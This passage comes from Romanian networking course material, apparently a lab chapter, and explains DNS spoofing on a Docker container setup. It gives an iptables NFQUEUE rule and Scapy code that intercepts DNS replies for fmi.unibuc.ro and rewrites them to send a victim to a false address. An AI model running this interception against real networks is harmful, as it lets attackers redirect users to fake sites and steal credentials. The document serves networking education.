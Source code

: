 ```python
simple_udp.close()
```

Testați-l cu
```bash
dig @localhost fmi.unibuc.ro
```

<a name="scapy_dns_spoofing"></a> 
#### DNS Spoofing
Dacă intermediem conexiunea între două noduri, putem insera răspunsuri DNS malițioase cu scopul de a determina userii să acceseze pagini false. Pe linux, un DNS customizabil se poate set prin fișierul `/etc/resolv.conf` sau ca în [exemplul de aici](https://unix.stackexchange.com/questions/128220/how-do-i-set-my-dns-when-resolv-conf-is-being-overwritten)).

Presupunem că folosim configurația de containere definită în acest capitol, că ne aflăm pe containerul `router` și că monitorizăm toate cererile containerul `server`. În cazul în care observăm un pachet UDP cu portul destinație 53 (e.g., IP destinație 8.8.8.8), putem încerca să trimitem un reply care să pară că vine de la DNS (8.8.8.8) cu o adresă IP falsă care nu apraține numelui interogat de către server. 
E posibil ca reply-ul nostru să ajungă la containerul `server`, dar și reply-ul serverul DNS original (8.8.8.8) să ajungă tot la container. Pentru ca atacul să fie cât mai lin, cel mai sigur este să modificăm live răspunsurile DNS-ului original (8.8.8.8) după următoarele instrucțiuni ([sursa originală](https://www.thepythoncode.com/article/make-dns-spoof-python)):

##### 1. iptables forward către nfqueue
Ne atașăm containerului `router` pentru a ataca containerul `server`. Construim o regulă de iptables prin care toate pachetele care trebuie forwardate (-I FORWARD) să treacă prin regula NFQUEUE cu număr de identificare 10 (putem alege orice număr).
```bash
docker-compose exec router bash

iptables -I FORWARD -j NFQUEUE --queue-num 10
```
##### 2. Scriem o funcție care detectează și modifică pachete de tip DNS reply
Deschidem un terminal de python sau executăm `python3 /elocal/capitolul3/src/examples/dns_spoofing.py`:
```python
#!/usr/bin/env python3

from scapy.all import *
from netfilterqueue import NetfilterQueue as NFQ
import os

def detect_and_alter_packet(packet):
    """Functie care se apeleaza pentru fiecare pachet din coada
    """
    octets = packet.get_payload()
    scapy_packet = IP(octets)
    # daca pachetul are layer de IP, UDP si DNSRR (reply)
    if scapy_packet.haslayer(IP) and scapy_packet.haslayer(UDP) and scapy_packet.haslayer(DNSRR):\
        # daca e site-ul fmi, apelam functia care face modificari
        if scapy_packet[DNSQR].qname == b'fmi.unibuc.ro.':
            print("[Before]:", scapy_packet.summary())
            # noul scapy_packet este modificat cu functia alter_packet
            scapy_packet = alter_packet(scapy_packet)
            print("[After ]:", scapy_packet.summary())
            # extragem octetii din pachet
            octets = bytes(scapy_packet)
            # il punem inapoi in coada modificat
            packet.set_payload(octets)
    # apelam accept pentru fiecare pachet din coada
    packet.accept()

```